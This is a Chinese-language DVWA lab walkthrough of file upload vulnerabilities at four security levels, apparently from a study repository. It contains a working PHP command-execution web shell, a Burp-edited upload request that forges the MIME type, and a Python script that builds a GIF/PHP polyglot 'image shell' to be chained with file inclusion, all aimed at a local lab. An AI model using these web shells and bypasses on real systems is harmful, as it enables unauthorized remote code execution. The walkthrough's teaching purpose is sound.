





# File Upload文件上传
### 核心问题:
```HTML
应用允许用户上传文件，但没有正确限制文件类型、文件内容、文件名、存储路径或执行权限，导致攻击者可以上传可执行脚本并访问执行。
```
# LOW等级实操
### 特点
1. 不检查文件后缀
2. 不检查 MIME-Type
3. 不检查文件内容
4. 上传后文件直接放到 Web 可访问目录
5. PHP 文件可被服务器解析执行

## 上传PHP测试文件
1. 新建文件：
```html
info.php
```
2. 内容:
```html
<?php phpinfo(); ?>
```
3. 上传info.php
4. 如果上传成功，访问
>http://127.0.0.1/dvwa/hackable/uploads/info.php
如果页面显示 PHP 配置信息，说明 PHP 文件被成功执行。
效果图:

## 上传简单命令执行文件
1. 新建文件:
```javascript
shell.php
```
2. 内容 
```html
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
3. 上传后访问：
>http://127.0.0.1/dvwa/hackable/uploads/shell.php?cmd=whoami
4. 可能返回类似：
>www-data

5. 再测试
>http://127.0.0.1/dvwa/hackable/uploads/shell.php?cmd=id
6. 在windows环境中可以测试
>http://127.0.0.1/dvwa/hackable/uploads/shell.php?cmd=whoami

## low等级学习重点
1. 文件上传漏洞的基本危害
2. WebShell 的基本原理
3. 上传目录可访问的风险
4. PHP 文件解析执行条件
5. move_uploaded_file() 如果没有安全限制会产生的问题
6. 文件后缀名控制的重要性

# Medium等级实操
### 常见逻辑是检查:
>$_FILES['uploaded']['type']
通常只允许
```html
image/jpeg
image/png
```
**但是问题在于**
>MIME-Type 是客户端可控的，攻击者可以通过 Burp Suite 修改。
## 直接上传php文件
准备
1. info.php
2. 内容是<?php phpinfo(); ?>
3. 通常会失败，显示类似：Your image was not uploaded.
4. 原因是浏览器提交的content-type可能是:
```html
application/x-php
application/octet-stream
```
不符合服务端要求
## 使用 Burp Suite 绕过 MIME-Type 检查
1. 浏览器代理设置为:
>127.0.0.1:8080,burp suite 开启intercept
2. 选择php文件上传:shell.php
burp会拦截到类似请求
```html
POST /dvwa/vulnerabilities/upload/ HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: application/x-php

<?php phpinfo(); ?>
------WebKitFormBoundary
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundary--
```
3. 修改content-Type
>将Content-Type: application/x-php ->Content-Type: image/jpeg
修改后类似
```html
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
Content-Type: image/jpeg

<?php phpinfo(); ?>
```


**这里解释一下，上传Php文件的时候，请求里是Content-Type: application/x-php,服务器看到后，认为是PHP文件，于是拒绝上传，把Content-Type: application/x-php ->Content-Type: image/jpeg,是你再请求中把这个文件伪装成jpeg图片文件**

4. 访问上传文件

>如果上传成功，访问：
```html
http://127.0.0.1/dvwa/hackable/uploads/shell.php
```
如果显示phpinfo()页面，说明绕过成功

## 如果上传的是:
```html
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```
访问
>http://127.0.0.1/dvwa/hackable/uploads/shell.php?cmd=whoami

## Medium等级学习重点
1. MIME-Type 校验不可靠
2. $_FILES['file']['type'] 来自客户端，不可信
3. Burp Suite 修改 multipart 请求
4. 服务端必须基于文件真实内容进行校验
5. 上传文件不能仅依赖前端或请求头判断
6. 文件扩展名和文件内容都需要校验

# High等级实操
## high等级一般会同时检查
1. 文件扩展名
2. 文件大小
3. 图片真实内容
> 并且可能使用:getimagesize()，判断是否为真实图片，因此直接上传info.php，通常会失败
### 上传正常照片
1. 准备normal.jpg上传
2. 通常可以成功
3. 访问http://127.0.0.1/dvwa/hackable/uploads/normal.jpg
4. 可以看到图片
### 上传php图片
1. 准备shell.php
2. 内容为<?php phpinfo(); ?>
3. 通常失败
4. 原因：后缀不是 jpg/jpeg/png，内容不是合法图片
### 尝试双后缀绕过
1. 将文件名改为：shell.php.jpg
2. 内容仍然是<?php phpinfo(); ?>
3. 一般仍会失败，因为 getimagesize() 检测不到合法图片结构。
### 制作图片马
1. copy /b normal.jpg + payload.php sheell.jpg
2. 上传shell.jpg
3. High登记下通常可能上传成功,因为
```html
后缀是 .jpg
文件头是图片格式
getimagesize() 可以识别
```
4. 上传后访问http://127.0.0.1/dvwa/hackable/uploads/shell.jpg
5. 此时大概率只会显示图片或乱码，不会执行Php
6. web服务器默认不会吧.jpg当做php执行
7. 所有在high等级中，仅上传图片马通常无法直接获得代码执行.

# 与 File Inclusion 模块组合利用
High等级的File Upload本身通常不能直接执行图片中的PHP代码，但是如果站点还存在文件包含漏洞，例如本靶场的，就可以，思路如下
1. 通过 File Upload 上传包含 PHP 代码的图片马，例如 shell.jpg
2. 通过 File Inclusion 包含该图片文件
3. PHP 解释器在 include 文件时，会解析其中的 <?php ... ?> 代码
4. 从而触发代码执行
# 具体实操过程
>首先，你需要知道,high难度进行了过滤，所有图片马需要满足:
1. 图片名后缀必须是jpg/png/jpeg
2. 文件本身必须是真实图片，能通过getimagesize
3. 图片里必须追加PHP代码
4. 上传到DVWA的hackable/uploads/
5. 再用File Inclusion的file://本地文件包装器包含他
OK那么实践开始
1. 新建文件123.py
2. 然后粘贴下面代码：
```html
 from pathlib import Path


  def make_image_shell(output_path: str) -> None:
      """
      生成一个文件名为 .jpg，但内容是合法 GIF 图片的图片马。
      可用于 DVWA File Upload High + File Inclusion High 本地实验。
      """

      # 一个 1x1 像素的最小合法 GIF 图片
      gif_header = (
          b"GIF89a"
          b"\x01\x00\x01\x00\x80\x00\x00"
          b"\x00\x00\x00\xff\xff\xff"
          b",\x00\x00\x00\x00\x01\x00\x01\x00\x00"
          b"\x02\x02D\x01\x00;"
      )

      # PHP payload
      # 注意：这里故意不写 PHP 结束标签 ?>，这样更稳定，避免后面内容干扰解析
      php_payload = b'''<?php
  echo "<br><pre>";
  echo "include ok\\n";

  if (isset($_GET["cmd"])) {
      system($_GET["cmd"]);
  } else {
      echo "Usage: ?page=file:///path/to/123.jpg&cmd=whoami";
  }

  echo "</pre>";
  '''

      output_file = Path(output_path)

      # 如果目标目录不存在，自动创建
      output_file.parent.mkdir(parents=True, exist_ok=True)

      # 写入图片马
      output_file.write_bytes(gif_header + php_payload)

      print(f"[+] Created: {output_file}")
      print(f"[+] Size: {output_file.stat().st_size} bytes")
      print("[+] Done.")


  if __name__ == "__main__":
      # 这里改成你想保存的位置
      # 建议先保存到 D:/phpstudy_pro/File Upload/123.jpg，然后用 DVWA Upload 页面上传
      make_image_shell(r"D:/phpstudy_pro/File Upload/123.jpg")
```
3. 运行后会生成D:/phpstudy/File Upload/123.jpg
4. 然后去file upload high页面上传这个123.jph
5. 上传成功后，一般会保存到 D:/phpstudy_pro/WWW/DVWA/hackable/uploads/123.jpg
6. 根据file inclusion模块high难度的特性(上一个文件中有上传的通关报告)



7. 由此可以构造URL链接http://127.0.0.1/dvwa/vulnerabilities/fi/?page=file:///D:/phpstudy_pro/WWW/DVWA/hackable/uploads/123.jpg
8. 效果图
High等级学习重点
1. 后缀名白名单的重要性
2. 图片真实内容检测
3. getimagesize() 的作用与局限
4. 图片马原理
5. 单一防御措施不足
6. 文件上传 + 文件包含组合利用
7. Web 服务器解析规则的重要性
8. 为什么上传目录不能执行脚本


# Impossible等级
1. 严格检查文件扩展名
2. 检查 MIME-Type
3. 检查真实图片内容
4. 对图片重新编码
5. 使用随机文件名
6. 不保留用户原始文件名
7. 防止图片马中的 PHP 代码保留
8. 加强 CSRF 防护
9. 限制文件大小
10. 对上传过程做更严格处理

# 四种情况对比
| 安全等级 | 校验方式 | 是否可直接上传 PHP | 是否容易执行 | 学习重点 |
|---|---|---|---|---|
| Low | 几乎无校验 | 可以 | 可以 | 上传漏洞基本原理 |
| Medium | 检查 MIME-Type | 可绕过 | 可以 | MIME-Type 不可信 |
| High | 后缀 + 图片内容检测 | 较难 | 通常不能直接执行 | 图片马、漏洞组合 |
| Impossible | 多重校验 + 重编码 | 基本不可行 | 基本不可行 | 安全防御方案 |